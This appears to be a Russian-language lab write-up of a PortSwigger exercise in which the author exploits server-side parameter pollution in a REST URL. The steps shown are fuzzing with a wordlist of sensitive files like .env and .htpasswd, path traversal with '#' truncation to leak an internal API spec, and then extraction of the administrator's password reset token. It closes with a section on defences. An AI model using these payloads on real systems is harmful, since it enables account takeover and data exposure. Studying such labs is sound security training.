



#### Использование загрязнения параметров на стороне сервера в URL-адресе REST
лаба ЭКСПЕРТ https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-rest-url

задача 
войдите в систему под именем пользователя. `administrator` и удалить `carlos`

-----

глянул карту сайта - пока - ничего прямо особенного не вижу

кроме одно момента!
 висит файл по 
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2559

let forgotPwdReady = (callback) => {
    if (document.readyState !== "loading") callback();
    else document.addEventListener("DOMContentLoaded", callback);
}

function urlencodeFormData(fd){
    let s = '';
    function encode(s){ return encodeURIComponent(s).replace(/%20/g,'+'); }
    for(let pair of fd.entries()){
        if(typeof pair[1]=='string'){
            s += (s?'&':'') + encode(pair[0])+'='+encode(pair[1]);
        }
    }
    return s;
}

const validateInputsAndCreateMsg = () => {
    try {
        const forgotPasswordError = document.getElementById("forgot-password-error");
        forgotPasswordError.textContent = "";
        const forgotPasswordForm = document.getElementById("forgot-password-form");
        const usernameInput = document.getElementsByName("username").item(0);
        if (usernameInput && !usernameInput.checkValidity()) {
            usernameInput.reportValidity();
            return;
        }
        const formData = new FormData(forgotPasswordForm);
        const config = {
            method: "POST",
            headers: {
                "Content-Type": "x-www-form-urlencoded",
            },
            body: urlencodeFormData(formData)
        };
        fetch(window.location.pathname, config)
            .then(response => response.json())
            .then(jsonResponse => {
                if (!jsonResponse.hasOwnProperty("result"))
                {
                    forgotPasswordError.textContent = "Invalid username";
                }
                else
                {
                    forgotPasswordError.textContent = `Please check your email: "${jsonResponse.result}"`;
                    forgotPasswordForm.className = "";
                    forgotPasswordForm.style.display = "none";
                }
            })
            .catch(err => {
                forgotPasswordError.textContent = "Invalid username";
            });
    } catch (error) {
        console.error("Unexpected Error:", error);
    }
}

const displayMsg = (e) => {
    e.preventDefault();
    validateInputsAndCreateMsg(e);
};

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});

```

запущу тррррРРРбо интрудер 
с пейлоадом как здесь [[theory_APi_testing]]

результаты: 
GET /admin
 - короче ответ 401 неавторизован

------

вижу в js файле функционал для смены токена

```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
```

ну и есть функции сброса пароля

и путь есть /forgot-password?passwordResetToken=${resetToken}
видимо - можно по этому пути сменить пароль через токен!

-------

осталось только токен сам получить тогда и проверить

попробовал
```http
POST /forgot-password HTTP/2
Host: 0a7900fb047031fe80927bad006f0028.web-security-academy.net
Cookie: session=wCcNSEM45DBMK2qHZe8lWk8lfZU1sfD7
...
..
.
Priority: u=1, i

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=administrator%24eset-token
```
ответ 400
```json
{
  "type": "error",
  "result": "The provided username \"administrator$reset-token\" does not exist"
}
```
\\ "ad это значит - что прямо в url подставляется то что я сюда пишу!

----------

а если так отправить 
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=administrator#reset-token

ответ 404
```json
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```

-------


запущука я сюда туРРРбо интрудер свой
!
```c
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=%s
```
интресных ответов нет

----------

запускаю туРРРбо интрудер здесь:
`POST /forgot-password%s HTTP/2`


-------
пробовал разными методами делать бутфорсы эти два - результатов нет

-----

\\ "ad это значит - что прямо в url подставляется то что я сюда пишу

попробую тогда пути поискать!

отправил 
```
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=/../../../../.
```
ответ 500 от сервера
```json
{
 "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
 }
```

это значит - что сервер ходит по моим апи путям, через параметр username!

-------
а вот так csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=/../../../

ошибка 404 

значит - все что далее - через чур, там ничего нет!

попробую подрубить сюда интрудер свой


пробую свой пейлоад через
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=/../../..%s
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=/../..%s
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=/..%s

результатов нет!

только вот иногда ошибки есть:
```
 "result": "The provided username \"..config.php.bak\" does not exist"
 
 "result": "The provided username \"...env~\" does not exist"
 
  "result": "The provided username \"...env.bak\" does not exist"
  
   "result": "The provided username \"...gitignore\" does not exist"
   
либо вообще 

  "result": "Invalid route. Please refer to the API definition"
```


---

тогда запущу интрудер 

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=%s

```c
api
api/
v1
v2
graphql
swagger
api-docs
openapi.json

swagger/index.html
swagger/ui
swagger-ui.html
swagger.json
swagger.yaml
api-docs/swagger.json
api-docs/swagger.yaml
docs
documentation
api/documentation
api/swagger
api/swagger-ui
api/swagger.json
api/swagger.yaml
openapi.yaml
api/openapi.json
api/openapi.yaml
v1/swagger.json
v2/swagger.json
v3/swagger.json

graphql
graphiql
graphql/console
v1/graphql
v2/graphql
api/graphql
query
graphql/query

api/v1
api/v2
api/v3
api/v4
api/v5
rest
rest/v1
rest/v2
api/rest
service
services
service/v1
services/v2

admin/api
internal/api
private/api
partner/api
partner/v1
third-party/api
thirdparty/v1
backend/api
api/admin
api/internal
api/private

api/1
api/2
api/3
api/latest
api/stable
api/beta
api/alpha
api/dev
api/test
api/staging

api/json
api/xml
api/yaml
api/rest/json
api/rest/xml
api/data
api/endpoint
api/service
api/services
api/function
api/functions
api/method
api/methods
api/action
api/actions

api/doc
api/docs
api/documentation
api/guide
api/reference
api/manual
api/help
api/index.html
api/readme
api/README

моб

api/mobile
api/app
mobile/api
app/api
api/v1/mobile
api/android
api/ios
client-api
mobile-client

вот тут тоже может че-то будет

robots.txt
sitemap.xml
.git/
backup/
phpinfo.php
cgi-bin/phpinfo.php
debug/
index.php~
index.php.bak
index.php.swp
index.php.save
index.php.old
index.php.orig
config.php~
config.php.bak
.env~
.env.bak
.gitignore
debug
test
tests
dev
develop
development
stage
staging
admin/debug
api/debug
console/
web-console/
admin/
backup/
backups/
temp/
tmp/
logs/
log/
private/
hidden/
secret/
internal/
restricted/
secure/
protected/
uploads/
files/
downloads/
docs/
documentation/
api/docs/
swagger/
swagger-ui/
graphql/console/
.env
.htaccess
.htpasswd
WEB-INF/
WEB-INF/web.xml
META-INF/
META-INF/context.xml
server-status
server-info
config.php
config.xml
config.json
configuration.php
settings.php
wp-config.php
app.config
application.properties
application.yml
database.yml
error_log
error.log
access_log
access.log
debug.log
application.log
server.log
catalina.
```

но результата нет

делаю ../
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=../%s
но результата нет 400 или 404

---

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=../../%s
но результата нет 400 или 404

------

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=../../../%s
но результата снова нет 400 или 404

-----
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=../../../../%s
но результата снова нет - тут уже все ошибки 500
с ошибкой 
```
"Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
```
просто это вне всех папок че там есть

-------

попробую все тоже самое но с решеткой  # в конце - чтобы орезать че после пейлоада идет моего

чето нашел 

запрос 
```http
POST /forgot-password HTTP/2
Host: 0a7900fb047031fe80927bad006f0028.web-security-academy.net
Cookie: session=wCcNSEM45DBMK2qHZe8lWk8lfZU1sfD7
...
..
.

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=../../../../openapi.json#
```




кажись - это разные ручки!!

```json

{
  "error": "Unexpected response from API server:
  \n{
  \n  
  
  \"openapi\": \"3.0.0\",
  
  \n  \"info\": {\n    \"title\": \"User API\",
  
  \n    \"version\": \"2.0.0\"
  
  \n  },
  
  \n  \"paths\": {
  
	  \n    \"/api/internal/v1/users/{username}/field/{field}\": {
  
  \n      \"get\": {
  
  \n        \"tags\": [
  
  \n          \"users\"
  
  \n        ],
  \n       
		   \"summary\": \"Find user by username\",
   
   \n        
   
		   \"description\": \"API Version 1\",
   \n        \"parameters\": [
   \n          {
   \n            \"name\": \"username\",
   \n            \"in\": \"path\",
   \n            \"description\": \"Username\",
   \n            \"required\": true,
   \n            \"schema\": {\n        ..."
}
```

кажись - это типо их  документация сырая  версии 3.0.0
! и здесь наверно все апи пути
 
вижу какой-то путь
`  /api/internal/v1/users/{username}/field/{field}\    `

и значит - то - что находится в параметрах моего запроса попадает вот в эту строку.... в поле username

но далее - идет еще и  field

типо так может работает


`csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=administrator&field=`


-----
пробую

```c
csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=administrator&field=resetToken?

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=administrator&field=reset-token
```
ответ уже 200 - валидный , но в ответе стандартный 
```
{"type":"email","result":"*****@normal-user.net"}
```

-----


в файле функции есть это
```c
if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
```

пробую

`csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=administrator/field/resetToken`
ничего


пробую `csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=administrator/field/passwordResetToken`
ничего нет

-----
пробую с решеткой
`csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=administrator/field/passwordResetToken#`
новая ошибка
```json
{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}
```

хочет только email

я в файле видел две версии
API Version 1
и 
"3.0.0

нужно попасть на v1 наверно

пробую
`csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=v1/administrator/field/passwordResetToken#`
ничего

вот тот кусок
```json
  \"description\": \"API Version 1\",
   \n        \"parameters\": [
   \n          {
   \n            \"name\": \"username\",
   \n            \"in\": \"path\",
   \n            \"description\": \"Username\",
   \n            \"required\": true,
   \n            \"schema\": {\n        ..."
```
и еще вот тоже 
```js
`  /api/internal/v1/users/{username}/field/{field}\    `
```

тут  /api потом  internal  / потом  v1 - что и нужно мне 
потом  users / потом  field

собираю все в кучу
`csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=/api/internal/v1/users/administrator/field/passwordResetToken`
ничего нет

```c

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=/v1/users/administrator/field/passwordResetToken#
```
ничего нет

```c

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=../v1/users/administrator/field/passwordResetToken#
```
ничего нет

отправляю 🏆
`csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=../../v1/users/administrator/field/passwordResetToken%23`

ПОЛУЧИЛОСЬ

ответ
```json
{
  "type": "passwordResetToken",
  "result": "3kljy381jmmu0fnsk8k1wmqtadxlj19a"
}
```

аллилуя!!! 


-------

осталось врубиться , куда этот токен сунуть теперь!

----
теперь вспоминаю что я нашел файл выше - 

вот там был кусок кода

```js
if (resetToken) {
    window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
}
```

беру 
/forgot-password?passwordResetToken=${resetToken}

собираю это дерьмо вместе

```http
GET /forgot-password?passwordResetToken=3kljy381jmmu0fnsk8k1wmqtadxlj19a HTTP/2
Host: 0a7900fb047031fe80927bad006f0028.web-security-academy.net
Cookie: session=wCcNSEM45DBMK2qHZe8lWk8lfZU1sfD7
Content-Length: 0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a7900fb047031fe80927bad006f0028.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a7900fb047031fe80927bad006f0028.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Priority: u=1, i


```

слава яйцам - вот доступ - 




```


https://0a7900fb047031fe80927bad006f0028.web-security-academy.net/forgot-password?passwordResetToken=3kljy381jmmu0fnsk8k1wmqtadxlj19a


```




--------


эта лаба была - вынос мозга / был ад

-----

## вывод

ну первое - висел файл в открытом доступе с систем функциями js

второе - это то, что через параметры запроса - вышли ошибки которые дали знать - что данные параметры попадают прямиком во внутренние запросы!

и через пот дерьмо и слезы и нашел апи "документацию"

и в ней была апишка которая дергалась с моим основным запросом, и были версии

далее я пробовал дернуть ручки - но снова вышла ошибка которая показала мне в ошибке - что нужна другая версия апи

и эта другая версия как-раз таки и была в той документации что я нашел через боль

в конце я оч долго мучался и не мог решить 
так как нужно было вот это ../../
и вот это # 
короче обходы дирректорий нужны и решетка - чтобы обрезать остатки запроса


```c

csrf=cwZThE04t052dgDmjl3NGo03aSX8OqyV&username=../../v1/users/administrator/field/passwordResetToken#
```

ну а далее все просто

в самом файле js  найденом был путь url для смены пароля через токен - а токен я получил

ну и все, сменил пароль - вошел - удалил карлоса

---


## как защититься

не должно быть файлов с кодом в открытом доступе, тем более которые открыто вот так вызываются и видно через любой прокси

ошибки сервера не должны содержать внутреннюю документацию или структуру api

нужно валидировать и экранировать все спецсимволы которые могут изменить путь или добавить параметры

не использовать пользовательский ввод для формирования url внутренних запросов

старые версии api должны либо отключаться либо иметь те же ограничения что и новые


